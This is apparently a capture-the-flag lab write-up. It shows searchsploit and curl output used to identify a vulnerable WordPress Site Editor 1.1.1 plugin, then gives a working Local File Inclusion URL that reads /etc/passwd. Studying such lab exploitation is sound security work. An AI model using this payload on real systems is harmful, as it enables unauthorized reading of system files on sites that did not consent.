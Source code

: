 there is a plugin installed named **Site Editor**. We are going to perform a public exploit search associated with this **WordPress** plugin. For this time I will use **searchsploit**

```bash
❯ searchsploit wordpress site editor
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion                                                                                              | php/webapps/44340.txt
WordPress Plugin User Role Editor 3.12 - Cross-Site Request Forgery                                                                                    | php/webapps/25721.txt
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
{: .nolineno }

There is an LFI (Local File Inclusion) vulnerability associated with version 1.1.1 of the installed plugin. 

We can confirm that it is the same version that is installed by inspecting the source code of the homepage and filtering for the string 'site-editor.' In the configuration files related to the plugin, the version is leaked. Furthermore, if we perform Google searches to analyze the plugin's documentation, we can see that it was removed for security reasons

**Ref**: <https://wordpress.org/plugins/site-editor/#description>

```bash
❯ curl -s -X GET 'http://192.168.190.166/' | grep  'site-editor' --color
<link rel='stylesheet' id='sed-FontAwesome-css'  href='http://192.168.190.166/wp-content/plugins/site-editor/editor/extensions/icon-library/fonts/FontAwesome/FontAwesome.css?ver=4.3' media='all' />
<link rel='stylesheet' id='general-css'  href='http://192.168.190.166/wp-content/plugins/site-editor/framework/assets/css/general.min.css?ver=1.1.1' media='all' />
```
{: .nolineno }

**Exploiting LFI:**

According to the exploit, remote loading of local files occurs at the following link: `http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

We can verify it mannually.

![img](/assets/img/post/readys/5.png)
